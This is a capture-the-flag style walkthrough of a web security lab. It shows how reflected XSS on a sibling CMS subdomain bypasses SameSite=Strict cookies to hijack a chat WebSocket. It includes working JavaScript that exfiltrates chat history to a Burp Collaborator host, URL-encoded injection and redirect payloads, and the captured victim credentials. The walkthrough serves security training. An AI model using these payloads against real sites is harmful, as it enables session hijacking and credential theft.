

---

**Difficulty:** 🟡 Practitioner

**Goal:**

- 🔍 Identify cross-site WebSocket hijacking (CSWSH) vulnerability
- 🎯 Understand SameSite=Strict cookie protection and its limitations
- 🌐 Discover sibling domain within the same site boundary
- 💉 Find reflected XSS vulnerability on sibling domain
- 🔗 Understand same-site vs cross-site domain relationships
- 🔄 Chain XSS on sibling domain with CSWSH attack
- 🚀 Exfiltrate victim's WebSocket chat history to Burp Collaborator
- 🎪 Extract login credentials from chat history
- 🚨 Bypass SameSite=Strict using same-site sibling domain
- 🎉 Complete lab successfully by logging in as victim

---

## 🧠 **Concept Recap**

> **SameSite Strict bypass via vulnerable sibling domain** exploits the fundamental principle that SameSite restrictions apply at the **site** level, not the **origin** level. While SameSite=Strict prevents cross-**site** attacks (attacker.com → victim.com), it does NOT prevent cross-**origin** attacks within the same site (cms.victim.com → app.victim.com). If an attacker can find a vulnerability (like XSS) on any subdomain of the target site, they can use it as a launching pad to attack other subdomains with full session cookie access — completely bypassing SameSite=Strict protections.

### 📊 **The Vulnerability**

**Understanding Site vs Origin:**

```r
Origin = scheme + domain + port
  https://app.example.com:443  ← Different from:
  https://cms.example.com:443  ← Different origin

Site = scheme + eTLD+1 (effective Top-Level Domain + 1 label)
  https://app.example.com  ← Same site as:
  https://cms.example.com  ← Same site! (both = example.com)

SameSite cookie restrictions:
└── Cross-ORIGIN within same SITE: ✅ Cookies sent
    └── app.example.com → cms.example.com
        └── Different origins, SAME site
            └── SameSite=Strict cookies included! ✓

└── Cross-SITE: ❌ Cookies NOT sent
    └── attacker.com → victim.com
        └── Different sites
            └── SameSite=Strict blocks cookies! ✓
```

**How SameSite=Strict is supposed to work:**

```r
Normal cross-site CSWSH attack (BLOCKED):

Attacker's exploit server (different site):
  https://exploit-server.net/exploit
  └── Contains: <script>WebSocket connection to victim</script>

Victim visits attacker page:
         ↓
Browser executes WebSocket connection:
  wss://victim.com/chat
  Cookie: ← NO session cookie! (Cross-site blocked by Strict)
         ↓
WebSocket handshake fails or opens anonymous session
         ↓
Attack blocked! ✓
```

**The sibling domain bypass:**

```r
Step 1: Find vulnerable sibling domain
  Main app: https://app.web-security-academy.net
  Sibling:  https://cms.web-security-academy.net
  
  Both share same site: web-security-academy.net ✓

Step 2: Discover XSS on sibling domain
  POST /login (on cms subdomain)
  Username: <script>alert(1)</script>
  └── XSS reflected! 💣

Step 3: Chain XSS → CSWSH
  Attacker page redirects to:
    https://cms.web-security-academy.net/login
      ?username=<ENCODED_CSWSH_SCRIPT>
      &password=anything
  
  Browser loads cms subdomain page:
  └── XSS executes on cms.web-security-academy.net
      └── CSWSH script creates WebSocket to app subdomain:
          wss://app.web-security-academy.net/chat
          Cookie: session=VICTIM_SESSION ← Included! (Same site!) ✓

Step 4: Exfiltrate data
  WebSocket receives chat history
  └── Contains login credentials
      └── Sent to Burp Collaborator
          └── Attacker retrieves credentials! 💥
```

**Key Insight:**

```r
Why sibling domain bypass works:

1. The eTLD+1 calculation:
   └── app.web-security-academy.net
       └── eTLD = .net (public suffix)
       └── +1 = web-security-academy
       └── Site = web-security-academy.net
   
   └── cms.web-security-academy.net
       └── eTLD = .net (public suffix)
       └── +1 = web-security-academy
       └── Site = web-security-academy.net
   
   Result: SAME SITE! ✓

2. Browser's SameSite logic:
   └── Request from: cms.web-security-academy.net
       └── Request to: app.web-security-academy.net
           └── Extract eTLD+1 from both:
               ├── From: web-security-academy.net
               ├── To: web-security-academy.net
               └── Match? YES → SAME SITE ✓
   
   └── SameSite=Strict rule:
       "Only send cookies for same-site requests"
       └── This IS a same-site request
           └── Send cookies! ✓

3. Why this breaks the security model:
   └── Developer's assumption:
       "SameSite=Strict prevents CSRF and CSWSH"
       └── TRUE for external attackers ✓
       └── FALSE if attacker controls ANY subdomain ❌
   
   └── The gap:
       ├── SameSite protects against: attacker.com → victim.com ✓
       ├── SameSite does NOT protect: cms.victim.com → app.victim.com ❌
       └── Any vulnerability on ANY subdomain breaks the entire site! 💣

4. What counts as "same site":
   └── Public suffix list determines eTLD:
       ├── .com → public suffix (eTLD)
       ├── .co.uk → public suffix (eTLD)
       ├── .github.io → public suffix (eTLD)
       └── Custom TLDs may vary!
   
   └── Same site examples:
       ✓ app.example.com ↔ api.example.com
       ✓ www.example.com ↔ cdn.example.com
       ✓ shop.example.com ↔ blog.example.com
   
   └── Different site examples:
       ❌ example.com ↔ example.org
       ❌ example.com ↔ attacker.com
       ❌ user1.github.io ↔ user2.github.io (github.io is eTLD!)

5. The attack chain breakdown:
   └── Attacker cannot directly attack app subdomain:
       ├── exploit-server.net → app.web-security-academy.net
       └── Cross-site → SameSite=Strict blocks ✓
   
   └── But attacker CAN use vulnerable sibling:
       ├── Step 1: exploit-server.net → cms.web-security-academy.net
       │   └── Loads XSS payload in URL parameter
       │   └── Cross-site, but public page (no cookies needed)
       │
       ├── Step 2: XSS executes ON cms subdomain
       │   └── Payload is now running IN the victim site
       │   └── Context: cms.web-security-academy.net
       │
       └── Step 3: XSS makes request to app subdomain
           └── cms.web-security-academy.net → app.web-security-academy.net
               └── Same site! ✓
               └── Cookies flow through! ✓
               └── WebSocket authenticated! 💥

6. Cross-Site WebSocket Hijacking (CSWSH) specifics:
   └── WebSocket handshake is HTTP Upgrade:
       GET /chat HTTP/1.1
       Upgrade: websocket
       Cookie: session=abc123
   
   └── Server validates session cookie:
       ├── If cookie present: connect to user's chat
       ├── If cookie absent: create new anonymous session
   
   └── No CSRF token on WebSocket handshake:
       └── Relies ENTIRELY on SameSite for protection
           └── Vulnerable if same-site XSS exists! ❌

7. Why this vulnerability is so critical:
   └── Single XSS on ANY subdomain:
       ├── Bypasses SameSite=Strict on ALL subdomains
       ├── Can hijack WebSockets site-wide
       ├── Can perform CSRF on protected endpoints
       ├── Complete compromise of entire site! 💣
   
   └── Defense gap:
       ├── Developers secure main app perfectly ✓
       ├── Marketing team deploys CMS on subdomain
       ├── CMS has simple XSS in contact form
       └── Entire site security compromised! ⚠️

8. Real-world scenarios:
   └── Common sibling domain patterns:
       ├── app.company.com (main application)
       ├── www.company.com (marketing site)
       ├── blog.company.com (WordPress)
       ├── help.company.com (support portal)
       ├── cms.company.com (content management)
       └── Any ONE of these with XSS = full compromise! 💣

The protection illusion:
└── "We set SameSite=Strict on all cookies"
    └── "We're protected from CSRF and CSWSH!"
        └── "Our app has no XSS vulnerabilities"
            └── "We're secure!" ✓
                └── But what about the 20 other subdomains?
                    └── Marketing sites, blogs, old portals?
                        └── Any forgotten XSS on ANY subdomain...
                            └── Entire site compromised! ⚠️

Developer thought process:
└── "SameSite=Strict is the strongest protection"
    └── "No cross-site cookies = no attacks"
        └── "Focus security on main application"
            └── "Subdomains are lower risk (different servers)"
                └── Never considered: subdomains are SAME SITE! ❌
                    └── Never audited all subdomains together ❌
                        └── Vulnerability introduced! 💣
```

---
---

## 🛠️ **Step-by-Step Attack**

---

### 🔧 **Step 1 — Access Lab**

1. 🌐 Click **"Access the lab"**
2. 👀 Observe the lab page

**Lab description:**

```
Lab: SameSite Strict bypass via sibling domain

Vulnerability:
└── Live chat uses WebSocket without CSRF protection
    └── Session cookie has SameSite=Strict
        └── Blocks direct cross-site CSWSH
            └── But sibling domain has XSS! 💣

Goal:
└── Perform CSWSH attack to exfiltrate victim's chat history
    └── Chat contains login credentials in plaintext
        └── Use credentials to log in as victim 🎯

Challenge:
└── Must find and exploit sibling domain
    └── Use XSS on sibling to launch same-site attack
        └── Bypass SameSite=Strict via same-site relationship! 💥
```

---

### 🔐 **Step 2 — Study the Live Chat Feature**

1. 🌐 Navigate to the live chat feature
2. ✏️ Send a few test messages:
    - "Hello"
    - "Testing chat"
    - "Message 3"
3. 👀 Observe chat functionality

**Live chat interface:**

```
┌────────────────────────────────────┐
│ Live Chat Support                  │
├────────────────────────────────────┤
│                                    │
│ You: Hello                         │
│                                    │
│ Support: Hi! How can I help?       │
│                                    │
│ You: Testing chat                  │
│                                    │
│ [___________________________]      │
│ [Send]                             │
│                                    │
└────────────────────────────────────┘
```

**Key observations:**

```
Chat mechanism:
└── Real-time bidirectional communication
    └── WebSocket protocol (not HTTP polling)
        └── Persistent connection ✓

Purpose of testing:
├── Understand how chat works
├── Generate chat history content
└── Identify WebSocket endpoints
```

---

### 🔍 **Step 3 — Analyze WebSocket Handshake**

1. 🌐 Open Burp Suite → **Proxy → HTTP History**
2. 🔎 Find the most recent `GET /chat` request
3. 👀 Examine the WebSocket handshake

**WebSocket handshake request:**

```HTTP
GET /chat HTTP/2
Host: 0abc1234def5678.web-security-academy.net
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Key: x3JJHMbDL1EzLkh9GBhXDw==
Sec-WebSocket-Version: 13
Cookie: session=xYz9KpLm3jN8qR5wV2tF7hG4sD1aB6cE
```

**WebSocket handshake response:**

```HTTP
HTTP/2 101 Switching Protocols
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Accept: HSmrc0sMlYUkAGmm5OPpG2HaGWk=
```

**Analysis:**

```HTTP
Critical observations:

1. Session cookie present:
   Cookie: session=xYz9KpLm3jN8qR5wV2tF7hG4sD1aB6cE
   └── WebSocket uses session for authentication ✓

2. No CSRF protection visible:
   ├── No CSRF token in URL parameters
   ├── No CSRF token in headers
   └── Relies on SameSite cookie protection! ⚠️

3. Upgrade mechanism:
   └── HTTP → WebSocket protocol switch
       └── Sec-WebSocket-Key → server responds with Accept
           └── Standard WebSocket handshake ✓

Vulnerability hypothesis:
└── If we can make authenticated WebSocket connection:
    └── From victim's browser
        └── We can access their chat history
            └── CSWSH attack possible! 💣
                └── But need to bypass SameSite=Strict...
```

---

### 🔄 **Step 4 — Test WebSocket Message Flow**

1. 🌐 In browser, refresh the live chat page
2. 🌐 Open Burp Suite → **Proxy → WebSockets History**
3. 👀 Observe the WebSocket messages

**WebSocket message flow:**

```HTTP
Client → Server (after page load):
  READY

Server → Client (response):
  {"user":"You","content":"Hello"}
  {"user":"Support","content":"Hi! How can I help?"}
  {"user":"You","content":"Testing chat"}

Key discovery:
└── Sending "READY" retrieves full chat history! 💡
    └── No additional authentication required
        └── Just need authenticated WebSocket connection
            └── CSWSH vector confirmed! 💣
```

**Message analysis:**

```
READY message purpose:
└── Client signals it's ready to receive messages
    └── Server responds with complete chat history
        └── All past messages in JSON format

Attack implication:
└── If attacker can:
    ├── Open WebSocket connection (with victim's session)
    ├── Send "READY" message
    └── Receive response
    
    Then attacker gets:
    └── Complete chat history
        └── Including any sensitive data! 💥
```

---

### 🧪 **Step 5 — Confirm CSWSH Vulnerability (Initial Test)**

**Prepare Burp Collaborator:**

1. 🌐 Open Burp Suite → **Collaborator** tab
2. 🖱️ Click **"Copy to clipboard"**
3. 📋 Note your Collaborator payload (e.g., `abc123.oastify.com`)

**Create proof-of-concept CSWSH script:**

1. 🌐 Go to exploit server
2. 📝 Paste the following into the **Body** field:

```html
<script>
var ws = new WebSocket('wss://0abc1234def5678.web-security-academy.net/chat');
ws.onopen = function() {
    ws.send("READY");
};
ws.onmessage = function(event) {
    fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {
        method: 'POST',
        mode: 'no-cors',
        body: event.data
    });
};
</script>
```

**Replace:**

- `0abc1234def5678` with YOUR lab ID
- `YOUR-COLLABORATOR-PAYLOAD` with your Burp Collaborator domain

3. 💾 Click **"Store"**
4. 👁️ Click **"View exploit"**

**Script breakdown:**

```r
<script>
var ws = new WebSocket('wss://LAB-ID.web-security-academy.net/chat');
// Creates WebSocket connection to chat endpoint
// wss:// = secure WebSocket (like https)

ws.onopen = function() {
    ws.send("READY");
};
// When connection opens, send READY to get history

ws.onmessage = function(event) {
    fetch('https://COLLABORATOR.oastify.com', {
        method: 'POST',
        mode: 'no-cors',
        body: event.data
    });
};
// For each message received, exfiltrate to Collaborator

Why no-cors mode?
└── Allows cross-origin POST without CORS preflight
    └── Simpler, faster exfiltration ✓
</script>
```

---

### 🔎 **Step 6 — Check Collaborator Results**

1. 🌐 In Burp, go to **Collaborator** tab
2. 🖱️ Click **"Poll now"**
3. 👀 Examine received HTTP interactions

**Expected Collaborator results:**

```HTTP
HTTP POST requests received:
  POST / HTTP/1.1
  Host: abc123.oastify.com
  Content-Type: text/plain
  
  Body: {"user":"You","content":"Testing chat"}

What this means:
✅ WebSocket connection succeeded
✅ READY message triggered history
✅ Chat data exfiltrated to Collaborator
```

**But there's a problem:**

```
The chat history received:
└── Only contains messages from current session
    └── Empty or minimal history
        └── This is a BRAND NEW session! ⚠️

Why?
└── Session cookie was NOT sent! ❌
    └── Cross-site request blocked by SameSite=Strict
        └── Anonymous WebSocket connection created
            └── No access to victim's real chat! ❌
```

---

### 🔍 **Step 7 — Verify SameSite=Strict Protection**

1. 🌐 Go to **Proxy → HTTP History**
2. 🔎 Find the WebSocket handshake triggered by your script
3. 👀 Examine the request carefully

**WebSocket handshake from CSWSH script:**

```HTTP
GET /chat HTTP/2
Host: 0abc1234def5678.web-security-academy.net
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Key: dGhlIHNhbXBsZSBub25jZQ==
Cookie: ← NO COOKIE! ❌

Analysis:
└── Request came from exploit-server.net
    └── Destination: web-security-academy.net
        └── Cross-SITE request
            └── Browser blocked session cookie! ✓

SameSite protection working as intended! 🛡️
```

---

**Examine login response for cookie attributes by fake credentials - test:test**

1. 🔎 Find your own `POST /login` request/response
2. 👀 Look at `Set-Cookie` header

**Set-Cookie header:**

```HTTP
HTTP/2 302 Found
Set-Cookie: session=xYz9KpLm3jN8qR5wV2tF7hG4sD1aB6cE; Secure; HttpOnly; SameSite=Strict

Cookie attributes:
├── Secure ✓ (HTTPS only)
├── HttpOnly ✓ (No JS access)
└── SameSite=Strict ✓ (Strongest protection)

This is why direct attack failed:
└── SameSite=Strict explicitly set
    └── Blocks ALL cross-site cookie sending
        └── Even GET top-level navigations blocked
            └── Most restrictive setting! 🛡️
```

**Current status:**

```
Attack blocked:
├── CSWSH vulnerability exists ✓
├── But cookie not sent cross-site ❌
└── Need alternative approach! 💡

What we need:
└── Way to make WebSocket connection appear same-site
    └── So browser sends session cookie
        └── So we get authenticated chat history
            └── Find same-site attack vector! 🎯
```

---

### 🌐 **Step 8 — Discover Sibling Domain**

**Look for cross-origin headers in responses:**

1. 🌐 In Burp, go to **Proxy → HTTP History**
2. 🔎 Search for `Access-Control-Allow-Origin` headers
3. 📋 Filter for static resources (images, scripts, CSS)

**Find CORS headers:**

```HTTP
Example: Request for GET /resources/js/chat.js

Response headers:
HTTP/2 200 OK
Content-Type: application/javascript
Access-Control-Allow-Origin: https://cms-0abc1234def5678.web-security-academy.net
                                      ↑
                              Sibling domain revealed! 💡

Why this header exists:
└── Main site loads resources from CMS subdomain
    └── CORS required for cross-origin resource loading
        └── Header reveals additional subdomain! ✓

Discovery:
└── Main domain: 0abc1234def5678.web-security-academy.net
└── Sibling domain: cms-0abc1234def5678.web-security-academy.net
    └── Both share: web-security-academy.net ← SAME SITE! 💣
```

**Alternative discovery methods:**

```
Other ways to find sibling domains:
├── DNS enumeration (if allowed)
├── Certificate Transparency logs
├── Subdomain brute-forcing
├── CORS headers (this lab) ✓
├── Content Security Policy headers
└── JavaScript source code references
```

---

### 🔎 **Step 9 — Explore the Sibling Domain**

1. 🌐 In browser, visit the sibling domain:
    

```
https://cms-0abc1234def5678.web-security-academy.net
```

    
2. 👀 Observe the page content

**CMS subdomain page:**

```
┌────────────────────────────────────┐
│ CMS Login                          │
├────────────────────────────────────┤
│                                    │
│ Username: [______________]         │
│                                    │
│ Password: [______________]         │
│                                    │
│ [Login]                            │
│                                    │
└────────────────────────────────────┘

Different login form:
└── Separate CMS application
    └── Different codebase than main app
        └── Potentially different security level! 💡
```

**Key observations:**

```
Sibling domain characteristics:
├── Different subdomain: cms.* vs main domain
├── Different application (CMS vs main app)
├── Likely different development team
└── Potentially weaker security! ⚠️

Attack surface expansion:
└── Main app might be secure
    └── But CMS could have vulnerabilities
        └── Any vulnerability on CMS = attack main app! 💣
            └── Because they're SAME SITE! ✓
```

---

### 💉 **Step 10 — Test for XSS on CMS Login**

**Submit test credentials:**

1. ✏️ Enter arbitrary credentials:
    - Username: `testuser`
    - Password: `testpass`
2. 🚀 Click **"Login"**
3. 👀 Observe the response

**Error message response:**

```
Invalid username: testuser

Observation:
└── Username reflected in error message! 💡
    └── Potential XSS vector! 🎯
```

**Test basic XSS payload:**

1. ✏️ Enter XSS payload as username:
    

```js
<script>alert(1)</script>
```

    
2. ✏️ Password: `anything`
3. 🚀 Click **"Login"**
4. 👀 Observe browser behavior

**XSS confirmation:**

```
Browser displays alert box:
┌────────────────────────┐
│ [!] Alert              │
├────────────────────────┤
│ 1                      │
│                        │
│ [OK]                   │
└────────────────────────┘

XSS CONFIRMED! 💥
└── Username parameter reflected without sanitization
    └── Script executes in cms subdomain context
        └── Reflected XSS vulnerability! ✓
```

**Why this is critical:**

```
Impact of XSS on sibling domain:
└── XSS executes in cms.web-security-academy.net context
    └── Same SITE as main app.web-security-academy.net
        └── Can make same-site requests to main app
            └── SameSite=Strict cookies WILL be sent! 💣

Attack chain now possible:
1. Inject XSS on cms subdomain ✓
2. XSS makes WebSocket to main domain
3. Browser sees: cms.site.net → app.site.net (same site!)
4. Session cookie sent ✓
5. Authenticated CSWSH succeeds! 💥
```

---

### 🔄 **Step 11 — Convert POST to GET for URL Injection**

**Current: XSS works via POST form**

1. 🌐 Find the `POST /login` request in Burp **HTTP History**
2. 🖱️ **Right-click** → **Send to Repeater**
3. 📑 Switch to **Repeater** tab

**POST request with XSS:**

```HTTP
POST /login HTTP/2
Host: cms-0abc1234def5678.web-security-academy.net
Content-Type: application/x-www-form-urlencoded

username=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&password=anything
```

4. 🖱️ **Right-click** in request → **Change request method**
5. 🚀 Click **"Send"**

**GET request with XSS:**

```HTTP
GET /login?username=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&password=anything HTTP/2
Host: cms-0abc1234def5678.web-security-academy.net
```

**Response confirms GET works:**

```HTTP
HTTP/2 200 OK
Content-Type: text/html

<h2>Invalid username: <script>alert(1)</script></h2>

XSS still executes! ✓
GET method works! ✓
```

**Why converting to GET matters:**

```
GET request advantages:
└── Can be triggered via URL navigation
    └── document.location = "url" ✓
    └── <a href="url"> click ✓
    └── window.location = "url" ✓

Attack delivery:
└── Attacker redirects victim to:
    https://cms.site.net/login?username=<XSS>&password=x
    └── Victim's browser loads URL
        └── XSS executes
            └── XSS payload triggers CSWSH! 💥

POST would require:
└── Form submission
    └── More complex
        └── GET is simpler and stealthier ✓
```

---

### 📝 **Step 12 — Copy and Test the GET URL**

1. 🖱️ **Right-click** on the GET request in Repeater
2. 📋 Select **"Copy URL"**
3. 🌐 Paste URL into browser and visit

**URL copied:**

```
https://cms-0abc1234def5678.web-security-academy.net/login?username=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&password=anything
```


**Browser behavior:**

```r
URL loads: https://cms-0a1b00c3d4e5f678.web-security-academy.net/login?username=<script>alert(1)</script>&password=test
         ↓
XSS payload reflects
         ↓
Script executes
         ↓
Alert box appears! ✓

Confirmation:
✅ XSS works via GET parameter
✅ Can be delivered via simple URL
✅ Ready to weaponize! 🎯
```

---

### 🔗 **Step 13 — Craft URL-Encoded CSWSH Payload**

**Recreate the CSWSH script:**

```javascript
<script>
var ws = new WebSocket('wss://0abc1234def5678.web-security-academy.net/chat');
ws.onopen = function() {
    ws.send("READY");
};
ws.onmessage = function(event) {
    fetch('https://YOUR-COLLABORATOR.oastify.com', {
        method: 'POST',
        mode: 'no-cors',
        body: event.data
    });
};
</script>
```

**Update with your lab ID and Collaborator:**

- Replace `0abc1234def5678` with YOUR lab ID
- Replace `YOUR-COLLABORATOR` with your Burp Collaborator payload

**URL encode the entire script:**

You can use Burp's Decoder or online tools:

```js
Original script: <script>var ws = new WebSocket...
         ↓ URL encode ↓
Encoded: %3Cscript%3Evar%20ws%3Dnew%20WebSocket%28%27wss%3A%2F%2F...
```

**Full URL-encoded payload (example):**

```
%3Cscript%3Evar%20ws%3Dnew%20WebSocket%28%27wss%3A%2F%2F0abc1234def5678.web-security-academy.net%2Fchat%27%29%3Bws.onopen%3Dfunction%28%29%7Bws.send%28%22READY%22%29%3B%7D%3Bws.onmessage%3Dfunction%28event%29%7Bfetch%28%27https%3A%2F%2FYOUR-COLLABORATOR.oastify.com%27%2C%7Bmethod%3A%27POST%27%2Cmode%3A%27no-cors%27%2Cbody%3Aevent.data%7D%29%3B%7D%3B%3C%2Fscript%3E
```

**Using Burp Decoder:**

1. 🌐 Go to Burp → **Decoder** tab
2. 📝 Paste your CSWSH script
3. 🔄 Click **"Encode as..." → "URL"**
4. 📋 Copy the encoded result

---

### 🎯 **Step 14 — Test the Full Attack Chain**

**Construct the exploit URL:**

```
https://cms-0abc1234def5678.web-security-academy.net/login
  ?username=<URL-ENCODED-CSWSH-SCRIPT>
  &password=anything
```

**Full example:**

```
https://cms-0abc1234def5678.web-security-academy.net/login?username=%3Cscript%3Evar%20ws%3Dnew%20WebSocket%28%27wss%3A%2F%2F0abc1234def5678.web-security-academy.net%2Fchat%27%29%3Bws.onopen%3Dfunction%28%29%7Bws.send%28%22READY%22%29%3B%7D%3Bws.onmessage%3Dfunction%28event%29%7Bfetch%28%27https%3A%2F%2FYOUR-COLLABORATOR.oastify.com%27%2C%7Bmethod%3A%27POST%27%2Cmode%3A%27no-cors%27%2Cbody%3Aevent.data%7D%29%3B%7D%3B%3C%2Fscript%3E&password=anything
```

**Test it yourself:**

1. 🌐 Visit the full URL in browser
2. 👀 Observe the attack execution

**What happens:**

```
Step 1: Browser loads cms subdomain with XSS
  URL: https://cms.web-security-academy.net/login?username=<script>...

Step 2: XSS executes in cms context
  Context: cms.web-security-academy.net
  └── Script creates WebSocket connection

Step 3: WebSocket connects to main domain
  From: cms.web-security-academy.net
  To: wss://app.web-security-academy.net/chat
  
  Browser's check:
  ├── From site: web-security-academy.net
  ├── To site: web-security-academy.net
  └── Same site? YES ✓
      └── Send session cookie! ✓

Step 4: Authenticated WebSocket established
  GET /chat
  Cookie: session=YOUR_SESSION ← Sent! ✓
  
  Server: "Valid session, connecting to YOUR chat"

Step 5: READY message sent
  WebSocket → Server: "READY"
  
  Server → WebSocket: <YOUR_CHAT_HISTORY>

Step 6: Exfiltration
  fetch() sends data to Burp Collaborator ✓
```

---

### 🔍 **Step 15 — Verify Attack Success**

1. 🌐 In Burp, go to **Collaborator** tab
2. 🖱️ Click **"Poll now"**
3. 👀 Examine HTTP interactions

**Expected Collaborator results:**

```HTTP
Multiple POST requests received:
  POST / HTTP/1.1
  Host: abc123.oastify.com
  
  Body: {"user":"You","content":"Hello"}
  Body: {"user":"Support","content":"Hi! How can I help?"}
  Body: {"user":"You","content":"Testing chat"}

SUCCESS! ✓
└── Received YOUR chat history
    └── Authenticated WebSocket worked
        └── Attack chain successful! 💥
```

**Verify session cookie was sent:**

1. 🌐 Go to **Proxy → HTTP History**
2. 🔎 Find the most recent `GET /chat` request
3. 👀 Check for session cookie

**WebSocket handshake (via sibling XSS):**

```HTTP
GET /chat HTTP/2
Host: 0abc1234def5678.web-security-academy.net
Cookie: session=xYz9KpLm3jN8qR5wV2tF7hG4sD1aB6cE ← Present! ✓

Comparison with earlier attempt:
├── Direct cross-site: NO cookie ❌
├── Via sibling domain: HAS cookie ✓
└── SameSite=Strict bypassed! 💥
```

**Why it worked this time:**

```
Attack flow:
1. Victim loads: exploit-server.net (attacker's page)
   └── No cookies sent (different site) ✓

2. Redirect to: cms.web-security-academy.net
   └── GET request for XSS injection
   └── Cross-site, but public page (no auth needed) ✓

3. XSS executes ON: cms.web-security-academy.net
   └── Payload now runs IN victim's site ✓

4. XSS opens WebSocket to: app.web-security-academy.net
   └── Request from: cms.web-security-academy.net
   └── Request to: app.web-security-academy.net
   └── Browser: "Both are web-security-academy.net site"
   └── Same site = send cookies! ✓

5. Authenticated access achieved! 💥
```

---

### 🌐 **Step 16 — Create Final Exploit for Victim**

**Go to exploit server and create delivery script:**

```html
<script>
    document.location = "https://cms-0abc1234def5678.web-security-academy.net/login?username=%3Cscript%3Evar%20ws%3Dnew%20WebSocket%28%27wss%3A%2F%2F0abc1234def5678.web-security-academy.net%2Fchat%27%29%3Bws.onopen%3Dfunction%28%29%7Bws.send%28%22READY%22%29%3B%7D%3Bws.onmessage%3Dfunction%28event%29%7Bfetch%28%27https%3A%2F%2FYOUR-COLLABORATOR.oastify.com%27%2C%7Bmethod%3A%27POST%27%2Cmode%3A%27no-cors%27%2Cbody%3Aevent.data%7D%29%3B%7D%3B%3C%2Fscript%3E&password=anything";
</script>
```

**Replace:**

- `0abc1234def5678` with YOUR lab ID (appears TWICE!)
- `YOUR-COLLABORATOR` with your Burp Collaborator payload

**Exploit breakdown:**

```HTML
<script>
    document.location = "URL";
</script>

document.location = "..."
└── Redirects victim's browser to specified URL
    └── Top-level navigation ✓

Target URL structure:
https://cms-LAB-ID.web-security-academy.net/login
  ?username=<URL_ENCODED_CSWSH_SCRIPT>
  &password=anything

Username parameter contains:
└── Complete CSWSH attack script
    └── URL-encoded to survive transport
        └── Reflected and executed by CMS ✓

Attack execution flow:
1. Victim visits exploit server
2. document.location redirects to cms subdomain
3. cms subdomain reflects XSS in username
4. XSS creates WebSocket to main domain (same-site!)
5. Session cookie included
6. Chat history exfiltrated to Collaborator
7. Success! 💥
```

---

### 🎯 **Step 17 — Deliver Exploit to Victim**

1. 💾 Click **"Store"** on exploit server
2. 🚀 Click **"Deliver exploit to victim"**
3. ⏳ Wait for victim to visit

**Attack execution against victim:**

```HTTP
Lab simulation starts:
         ↓
1. Victim (Carlos) is logged in
   └── Has active session with chat history
   └── Chat contains sensitive credentials

2. Victim visits exploit URL
   └── https://exploit-server.net/
   
3. Exploit page loads
         ↓
4. document.location executes
   └── Redirects to cms subdomain with XSS payload
   
5. Browser loads:
   https://cms.LAB-ID.web-security-academy.net/login
     ?username=<CSWSH_SCRIPT>&password=anything
         ↓
6. CMS reflects username in error message
   └── XSS executes in cms subdomain context
   
7. CSWSH script runs:
   var ws = new WebSocket('wss://LAB-ID.web-security-academy.net/chat');
         ↓
8. Browser checks SameSite:
   ├── From: cms.web-security-academy.net
   ├── To: app.web-security-academy.net
   ├── Same site? YES (both .web-security-academy.net)
   └── Send session cookie! ✓
         ↓
9. WebSocket handshake with victim's session:
   GET /chat
   Cookie: session=VICTIM_SESSION ← Included! ✓
         ↓
10. WebSocket connected to victim's chat
         ↓
11. ws.send("READY")
         ↓
12. Server sends victim's full chat history
         ↓
13. ws.onmessage receives each message
         ↓
14. fetch() exfiltrates to Collaborator
   POST https://COLLABORATOR.oastify.com
   Body: <CHAT_MESSAGE>
         ↓
15. All messages exfiltrated! ✓
```

---

### 🔍 **Step 18 — Retrieve Exfiltrated Data**

1. 🌐 In Burp, go to **Collaborator** tab
2. 🖱️ Click **"Poll now"**
3. 👀 Examine all HTTP interactions

**Collaborator results:**

```HTTP
Multiple POST requests received:

POST / HTTP/1.1
Body: {"user":"carlos","content":"My username is carlos"}

POST / HTTP/1.1
Body: {"user":"support","content":"How can I help?"}

POST / HTTP/1.1
Body: {"user":"carlos","content":"I forgot my password"}

POST / HTTP/1.1
Body: {"user":"support","content":"No problem! Your password is: s3cr3tp4ssw0rd"}
                                                              ↑
                                                  Credentials found! 💥

POST / HTTP/1.1
Body: {"user":"carlos","content":"Thanks!"}
```

**Extract credentials:**

```
From chat history:
├── Username: carlos
└── Password: s3cr3tp4ssw0rd

Victim's credentials exfiltrated! ✓
```

---

### 🔐 **Step 19 — Login as Victim**

1. 🌐 Navigate to main site login page
2. 📝 Enter victim's credentials:
    - Username: `carlos`
    - Password: `s3cr3tp4ssw0rd`
3. 🚀 Click **"Login"**

**Successful login:**

```
┌────────────────────────────────────┐
│ My Account                         │
├────────────────────────────────────┤
│                                    │
│ Username: carlos                   │
│                                    │
│ Email: carlos@victim.net           │
│                                    │
└────────────────────────────────────┘

Logged in as victim! ✓
```

---

### ✅ **Step 20 — Lab Completion**

**Success banner:**

```
┌─────────────────────────────────────┐
│  ✅ Congratulations!                │
│                                     │
│  You successfully exploited a       │
